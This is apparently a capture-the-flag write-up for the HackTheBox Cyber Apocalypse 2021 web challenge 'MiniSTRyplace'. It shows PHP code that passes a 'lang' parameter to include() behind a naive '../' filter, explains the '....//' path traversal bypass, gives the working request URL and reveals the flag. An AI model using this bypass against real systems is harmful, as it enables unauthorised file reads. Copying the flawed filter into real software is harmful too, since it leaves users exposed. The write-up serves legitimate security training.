

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - MiniSTRyplace

Category: Web, Points: 300


And attached file: [web_ministryplace.zip](web_ministryplace.zip)

# MiniSTRyplace Solution

Let's start the docker and browse it:


By browsing on attached zip we can see the file ```index.php```:
```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```


The line
```php
...
include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
...
```

Replace all ```../``` from string, It's mean if we send ```http://138.68.167.11:30616/index.php?lang=../flag``` It will be ```http://138.68.167.11:30616/index.php?lang=/flag```.

But if we send ```....//``` It will be ```../``` !

Like that we can get the flag, We know the flag located on ```../../flag``` (According the attached zip file) So let's send ```http://138.68.167.11:30616/index.php?lang=....//....//flag```:



And we get the flag: ```CHTB{b4d_4li3n_pr0gr4m1ng} ```.